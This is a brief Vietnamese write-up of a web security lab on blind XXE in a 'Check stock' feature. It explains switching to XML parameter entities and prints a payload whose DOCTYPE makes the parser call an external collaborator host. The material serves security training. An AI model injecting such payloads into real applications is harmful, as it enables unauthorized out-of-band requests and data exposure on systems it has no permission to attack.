


### Giải quyết
- Vẫn là Blind XXE tồn tại trong chức năng `Check stock` của web. Tuy nhiên nó đã được tăng cường bảo mật cho XML parser nên chiêu trò Blind XXE với các entity thông thường không còn tác dụng

- Vì thế ở lab này chuyển qua sử dụng XML parameter entity (một loại XML entity đặc biệt có thể được tham chiếu từ một vị trí nào đó của DTD)
```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://9z9uyx4cncfhtbxqhozur8ct5kbdz2.oastify.com"> %xxe; ] >
```

###### Solved!